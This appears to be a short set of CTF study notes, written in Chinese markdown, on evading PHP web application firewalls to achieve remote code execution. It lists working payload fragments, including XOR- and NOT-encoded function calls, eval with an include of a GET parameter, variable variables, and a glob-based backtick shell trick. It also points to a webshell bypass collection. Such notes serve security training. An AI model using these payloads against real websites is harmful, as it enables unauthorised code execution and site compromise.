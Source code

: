 tags:: CTF/RCE, CTF/PHP/WAF绕过， CTF/PHP/无字母数字RCE

- `'`
	- `"`
- `base_convert`
	- `chr` 拼接
- 空格和括号
	- `eval('include$_GET[url]?>');`
- hex
	- php的`"`支持转义: `"\x61"`
- 和，或，非等二进制操作
	- 异或
	- `((%fe%fe%fe%fe%fe%fe%fe)^(%8e%96%8e%97%90%98%91))();`
	- 取反
	- `${~'%99%93%9E%98'} # $flag`
	- 可以使用方括号构造数组并取第一个元素的方式绕过空格WAF
		- `[~%8c%86%8c%8b%9a%92][!%FF]`
- `$$`
	- ```php
	  $a = "b"
	  $b = "asd"
	  echo($$a) // 输出asd
	  ```
- 使用不可见字符作为变量名
- glob
	- ```
	  `?><?=`. /???/????????[@-[]`?>`	
	  ```
	- 需要配合文件上传,具体见[[CTF/PHP/无字母数字RCE]]
- #### 从其他地方读取
	- 其他未被过滤的参数(GET 或者 POST)
	- session_id()
	- cookie
	- log
- [[CTF/PHP/无字母数字RCE]]
- [[CTF/PHP/特殊标签]]
- # webshell绕WAF技巧
	- [[CTF/PHP/webshell收集]]